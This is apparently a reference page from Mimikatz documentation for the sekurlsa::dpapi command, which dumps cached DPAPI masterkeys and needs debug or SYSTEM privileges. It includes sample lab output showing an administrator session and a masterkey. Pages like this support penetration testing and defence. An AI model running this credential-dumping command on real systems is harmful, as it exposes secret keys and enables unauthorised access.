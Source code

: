 # dpapi

It lists DPAPI cached masterkeys.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::dpapi

Authentication Id : 0 ; 227854 (00000000:00037a0e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:19:23 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-500
         [00000000]
         * GUID      :  {0686f7cf-76f3-413b-a51e-28d0d0531013}
         * Time      :  10/17/2021 4:21:59 AM
         * MasterKey :  6b5b148b9244efab617e417936227286c24d340cfb9900cc632dcf1d10fd258d16337df2e090251851dec676d9d525b1fc5bd99c9383084fd0e9f4d0c45a3b0e
         * sha1(key) :  c5049248822679fdb3e60ba37531ae3e805f7122
```
